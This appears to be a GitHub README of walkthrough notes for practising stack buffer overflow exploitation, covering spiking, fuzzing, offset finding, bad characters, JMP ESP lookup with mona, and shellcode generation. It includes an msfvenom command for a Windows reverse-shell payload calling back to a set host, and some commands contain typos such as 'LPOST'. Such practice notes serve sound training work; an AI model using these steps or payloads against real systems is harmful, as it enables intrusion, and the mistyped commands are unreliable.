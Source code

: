 # Buffer Overflow Scripts
Buffer overflow scripts to practice (walkthrough notes)

## 1- Spiking (finding the vulnerable server -crashable service-)

use the command "`generice_send_tcp HOST PORT`" in Kali Linux

Make a file named after the service with the extension of .spk for spike.

>e.g. trun.spk

run `generic_send_tcp <IP> <PORT> trun.spk 0 0` 

if it crashes, then this is our service. 

_____________________________________________________


## 2- Fuzzing (overloading the service and identify the number of bytes it takess to crash it)

here we will use the `fuzzer.py`

>Make sure you edit the IP and PORT

You will get a number of bytes _-where the program crashed-_, then you will used to generate a pattern with `msf-pattern_create` in Kali.
>the -l (Capital L) switch takes the number of bytes.
>e.g. `msf-pattern_create -l 3000`


_____________________________________________________________

## 3- Finding the Offset (EIP)
after editing the offset and firing up the `offset.py`, to identify the overwritten EIP we have to take the hex for it. then we will use it with `msf-pattern_offset -l <BYTES> -q <EIP's HEX>`.

the offset will come up, and that what we are gonna use to overwrite the EIP.
_____________________________________________________________

## 4 - Overwriting the EIP (Just to make sure that we made it right)

We will make sure here we wrote the EIP with `eip_set.py`

if the last bytes(of EIP) were Bs _-42424242-_ then we overwrote the EIP successfully.

_____________________________________________________________


## 5 - f  Finding Bad Characters

here we will try to identify which characters are bad for the shellcode (breaks the code), in order to avoid them. 


run the code `badchars.py`

then follow the ESP in dump and see if there's any badchars (Something that doesn't belong to the hex order).

_____________________________________________________________


## 6- Finding the Right Module (The vulnerable Service)

from github download mona.py and leave it at "C:\programfiles(x86)\immunityinc\immunitydebugger\pycommands"

in the little bar down the Immunity Debugger type: *!mona modules*

notice the falses in the security for the specific service.

locate nasm_shell in linux (this translate the instruction you write into assembly code), it is used to direct the malicious code to be executed. 

type in nasm_shell: JMP ESP 

then in the bar in Immunity Debugger type: 
`!mona find -s "\xff\xe4" -m <vuln service>`

>-m switch is the vulnerable module we identified earlier with !mona modules

then run `module_finder.py`
_____________________________________________________________


## 7- Generating Shellcode and Gaining Root

generate a payload with msfvenom in Kali
`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.5.108 LPOST=9999 EXITFUNC=thread -f c -a x86 -b "\x00"`
>-f switch for format,
>-a switch for architechture,
>-b switch for bad characters.

copy the payload to `shellcode.py` and fire it up. 

Enjoy your shell!

